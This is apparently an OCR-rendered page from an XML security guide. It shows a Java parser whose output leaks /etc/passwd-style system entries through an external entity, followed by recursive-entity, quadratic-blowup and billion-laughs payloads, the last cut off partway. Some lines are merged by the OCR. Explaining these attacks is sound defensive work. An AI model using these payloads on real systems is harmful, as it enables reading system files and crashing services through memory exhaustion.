 ```
    import javax.xml.parsers.SAXParserFactory;     import javax.xml.stream.XMLStreamReader;
    import javax.xml.stream.XMLInputFactory;     import java.io.File;
    import java.io.FileReader;     import java.io.FileInputStream;
     public class parseDocument {
     public static void main(String[] args) {       try {
       XMLInputFactory xmlif = XMLInputFactory.newInstance();        FileReader fr = new FileReader("contacts.xml");
       File file = new File("contacts.xml");        XMLStreamReader xmlfer = xmlif.createXMLStreamReader("contacts.xml",
                                                new FileInputStream(file));        int eventType = xmlfer.getEventType();
       while (xmlfer.hasNext()) {         eventType = xmlfer.next();
        if(xmlfer.hasText()){          System.out.print(xmlfer.getText());
        }        }
       fr.close();       } catch (Exception e) {
       e.printStackTrace();       }
     }     }
```
 
The previous code produces the following output: 
```
     $ java parseDocument
    <!DOCTYPE contacts SYSTEM "contacts.dtd">John### User Database     ...
    nobody:*:-2:-2:Unprivileged User:/var/empty:/usr/bin/false     root:*:0:0:System Administrator:/var/root:/bin/sh
```
 
#### Recursive Entity Reference 
**When the definition of an element `A` is another element `B`, and that element `B` is defined as element `A`, that schema describes a circular
reference between elements:** 
```
     <!DOCTYPE A [
     <!ELEMENT A ANY>      <!ENTITY A "<A>&B;</A>">
     <!ENTITY B "&A;">     ]>
    <A>&A;</A> 
```
 #### Quadratic Blowup
 **Instead of defining multiple small, deeply nested entities, the
attacker in this scenario defines one very large entity and refers to it as many times as possible, resulting in a quadratic expansion
(*O(n\^2)*).** 
The result of the following attack will be 100,000 x 100,000 characters in memory.
 
```
    <!DOCTYPE root [      <!ELEMENT root ANY>
     <!ENTITY A "AAAAA...(a 100.000 A's)...AAAAA">     ]>
    <root>&A;&A;&A;&A;...(a 100.000 &A;'s)...&A;&A;&A;&A;&A;</root> 
```
 #### Billion Laughs
 **When an XML parser tries to resolve the external entities included
within the following code, it will cause the application to start consuming all of the available memory until the process crashes.** This
is an example XML document with an embedded [DTD](https://www.w3schools.com/xml/xml_dtd_intro.asp) schema including
the attack: 
```
     <!DOCTYPE root [
     <!ELEMENT root ANY>      <!ENTITY LOL "LOL">
     <!ENTITY LOL1 "&LOL;&LOL;&LOL;&LOL;&LOL;&LOL;&LOL;&LOL;&LOL;&LOL;">      <!ENTITY LOL2 "&LOL1;&LOL1;&LOL1;&LOL1;&LOL1;&LOL1;&LOL1;&LOL1;&LOL1;&LOL1;">
     <!ENTITY LOL3 "&LOL2;&LOL2;&LOL2;&LOL2;&LOL2;&LOL2;&LOL2;&LOL2;&LOL2;&LOL2;">      <!ENTITY LOL4 "&LOL3;&LOL3;&LOL3;&LOL3;&LOL3;&LOL3;&LOL3;&LOL3;&LOL3;&LOL3;">
```